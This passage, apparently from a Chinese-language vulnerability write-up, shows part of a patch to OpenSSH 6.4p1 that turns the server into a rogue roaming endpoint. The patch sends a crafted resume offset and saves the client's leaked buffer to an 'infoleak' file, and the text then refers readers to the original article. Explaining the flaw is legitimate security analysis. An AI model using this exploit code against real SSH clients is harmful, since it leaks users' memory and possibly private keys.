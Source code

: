 ```
+     load_roaming_file("client_write_bytes", &amp;client_write_bytes, &amp;len);
+     debug("%s: client_write_bytes %llu", __func__,
+         (unsigned long long)client_write_bytes);
+
+     u_int client_out_buf_size;
+     len = sizeof(client_out_buf_size);
+     load_roaming_file("client_out_buf_size", &amp;client_out_buf_size, &amp;len);
+     debug("%s: client_out_buf_size %u", __func__, client_out_buf_size);
+     if (client_out_buf_size &lt;= 0 || client_out_buf_size &gt; MAX_ROAMBUF)
+            fatal("%s: client_out_buf_size %u", __func__,
+                      client_out_buf_size);
+
+     packet_start(SSH2_MSG_KEX_ROAMING_AUTH_OK);
+     packet_put_int64(client_write_bytes - (u_int64_t)client_out_buf_size);
+     packet_send();
+     const int overflow = (access("output", F_OK) == 0);
+     if (overflow != 0) `{`
+            const void *const ptr = load_roaming_file("output", NULL, &amp;len);
+            buffer_append(packet_get_output(), ptr, len);
+     `}`
+     packet_write_wait();
+
+     char *const client_out_buf = xmalloc(client_out_buf_size);
+     if (atomicio(read, packet_get_connection_in(), client_out_buf,
+                          client_out_buf_size) != client_out_buf_size)
+            fatal("%s: read client_out_buf_size %u errno %d", __func__,
+                          client_out_buf_size, errno);
+     if (overflow == 0)
+            dump_roaming_file("infoleak", client_out_buf,
+                                       client_out_buf_size);
+     fatal("%s: all done for %s", __func__, dir);
+`}`
+
+static void
 kex_choose_conf(Kex *kex)
 `{`
      Newkeys *newkeys;
@@ -470,6 +537,10 @@ kex_choose_conf(Kex *kex)
                    kex-&gt;roaming = 1;
                    free(roaming);
             `}`
+     `}` else if (strcmp(peer[PROPOSAL_KEX_ALGS], KEX_RESUME) == 0) `{`
+            roaming_reconnect();
+            /* NOTREACHED */
+            fatal("%s: returned from %s", __func__, KEX_RESUME);
      `}`
      /* Algorithm Negotiation */
diff -pruN openssh-6.4p1/roaming.h openssh-6.4p1+roaming/roaming.h
--- openssh-6.4p1/roaming.h   2011-12-18 15:52:52.000000000 -0800
+++ openssh-6.4p1+roaming/roaming.h      2016-01-07 01:04:15.000000000 -0800
@@ -42,4 +42,86 @@ void     resend_bytes(int, u_int64_t *);
 void     calculate_new_key(u_int64_t *, u_int64_t, u_int64_t);
```

       ** 由于篇幅有限,在此无法进行详细的讲解,具体信息请查看原文。**
